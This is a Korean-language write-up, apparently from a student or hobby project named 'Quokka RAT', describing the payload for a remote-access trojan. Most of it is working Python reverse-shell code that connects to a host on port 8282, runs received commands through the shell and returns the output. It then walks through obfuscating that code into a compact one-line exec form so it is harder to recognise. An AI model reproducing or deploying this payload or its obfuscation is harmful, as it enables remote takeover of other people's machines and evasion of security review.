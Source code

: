 # Quokka RAT : 페이로드

<aside>
⚠️ author : 전재호(agamtt) 2024-03-17
contributor : 손기민(KiminSon) 2024-04-08

</aside>

# 페이로드(Payload)

페이로드(Payload) 는 내용물이라는 뜻으로, 해킹에서는 악성행위에 쓰이는 데이터를 말합니다.

우리가 만든 악성코드는 이렇게 생겼습니다. 불필요한 스페이스바 등을 지워서 페이로드를 작게 만듭시다.

```python
import socket
import subprocess

host = "172.17.0.3"
port = 8282

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

while True:
    command = s.recv(1024).decode()
    output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, text=True)
    result = output.stdout
    if(result==''):
        s.send("success".encode())
    else:
        s.send(result.encode())
```

이제 띄어쓰기도 좀 줄이고, 알아보기 힘들게 바꿉니다.

```python
import socket
import subprocess
h="172.17.0.3"
p=8282
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((h,p))
while True:
    c=s.recv(1024).decode()
    output=subprocess.run(c,shell=True,stdout=subprocess.PIPE,text=True)
    result=output.stdout
    if(result==''):
        s.send("suc".encode())
    else:
        s.send(result.encode())
```

이제 이것을 이용하여 해킹을 진행해보겠습니다.

## 더 줄이기 : 세미콜론으로 한줄 코드 만들기

파이썬은 줄바꿈 말고도 세미콜론(;)으로 코드를 구분할 수 있습니다.
이렇게 만들면 더 알아보기 힘듭니다.

```python
import socket,subprocess;h,p="172.17.0.3",8282;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((h,p));exec("while True:c=s.recv(1024).decode();o=subprocess.run(c,shell=True,stdout=subprocess.PIPE,text=True);r=o.stdout;s.send('suc'.encode()) if not r else s.send(r.encode())")
```

계속